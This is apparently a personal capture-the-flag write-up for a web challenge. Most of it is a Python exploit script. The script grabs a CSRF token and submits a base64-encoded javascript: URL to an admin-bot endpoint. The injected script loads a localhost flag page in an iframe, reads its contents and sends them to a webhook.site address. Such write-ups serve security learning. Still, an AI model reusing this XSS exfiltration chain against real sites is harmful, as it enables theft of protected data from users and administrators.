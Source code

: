 ```yaml
---
created: 1969-12-31T19:00
updated: 2025-07-28T02:13
---
```


Well XSS is easy, just use `javascript:alert(1)` as the url to open.

So how do we get the flag? The token itself is HTTP only so we can't just get that.

```python
import requests
import base64
t='http://34.134.162.213:17001'
s=requests.Session()
csrf_token = s.get(f"{t}/").text.split('csrf-token" content="')[1].split('"')[0]
print(csrf_token)
csrf_token2 = s.get(f"{t}/").text.split('csrf-token" content="')[1].split('"')[0]
print(csrf_token2)

payload = base64.b64encode(f"""
fetch('https://webhook.site/ae498600-1949-4b36-96c2-24127fd673fd?f=preload');
document.cookie='';
const iframe = document.createElement('iframe');
const token = '{csrf_token2}';
iframe.src = 'http://localhost:3000/get_flag?csrf_token='+token;
document.body.appendChild(iframe);
iframe.onload = () => {{
    try {{
        const flag = iframe.contentDocument.body.innerText;
        fetch('https://webhook.site/ae498600-1949-4b36-96c2-24127fd673fd?f='+flag);
    }} catch (e) {{
        fetch('https://webhook.site/ae498600-1949-4b36-96c2-24127fd673fd?f='+e);
    }}
}};
""".encode()).decode()

r=s.post(f"{t}/visit_url",data={
'url': f"javascript:eval(atob('{payload}'))",
'csrf_token': csrf_token
})
print(r.text)
```

Again forgot the flag, but I solved it like this.
